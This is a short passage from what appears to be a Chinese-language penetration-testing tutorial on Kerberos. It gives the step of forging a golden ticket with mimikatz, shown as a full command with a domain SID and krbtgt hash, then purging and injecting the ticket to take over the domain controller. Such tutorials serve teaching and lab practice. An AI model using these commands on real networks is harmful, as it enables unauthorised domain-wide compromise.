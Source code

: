     ![image-20240624120215437](Kerberos/image-20240624120215437.png)

3. 构造并传递金票，然后导入，获得域控权限：
    ```bash
    # 拿到必要信息后，在域普通用户机器上传递金票
    # 参数说明：
    # /admin 伪造的用户名
    # /ticket 生成的票据名
    # /sid 不带 Object Relative ID 的 Object Security ID
    mimikatz "kerberos::golden /admin:system /domain:endlessshw.com /sid:S-1-5-21-512852378-3429876688-390954321 /krbtgt:fe3d6a0ad6daed6a621c04d24c2a2904 /ticket:golden_ticket"
    # 然后将金票导入即可
    mimikatz # Kerberos::purge
    mimikatz # kerberos::ptt 金票位置
    ```